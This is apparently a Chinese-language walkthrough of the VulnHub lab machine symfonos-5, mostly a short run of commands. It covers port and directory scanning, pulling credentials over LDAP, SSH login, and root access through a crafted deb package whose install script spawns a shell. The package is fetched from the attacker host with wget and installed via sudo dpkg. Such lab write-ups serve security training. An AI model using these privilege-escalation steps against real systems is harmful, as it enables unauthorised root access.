

# symfonos-5

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-4（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/symfonos-5,415/

## Let's go

```
nmap -A 192.168.253.141
```


> **浏览网页无发现，进行枚举**

```
dirsearch -u http://192.168.253.141 -E
```


> **尝试直接访问 home.php 发现主页的源代码**


> **得到 ldap 的用户名和密码，使用nmap进行脚本扫描**


```
nmap -p 389 --script ldap-search --script-args "ldap.password='qMDdyZh3cT6eeAWD',ldap.username='cn=admin,dc=symfonos,dc=local'" 192.168.253.141
```



```
ssh zeus@192.168.253.141
password:cetkKf4wCuHC9FET
```


```
sudo -l
```


> **参考这里 https://gtfobins.github.io/gtfobins/dpkg/**

```
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
```


```
wget http://192.168.253.136/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```


```
cd
cat proof.txt
```

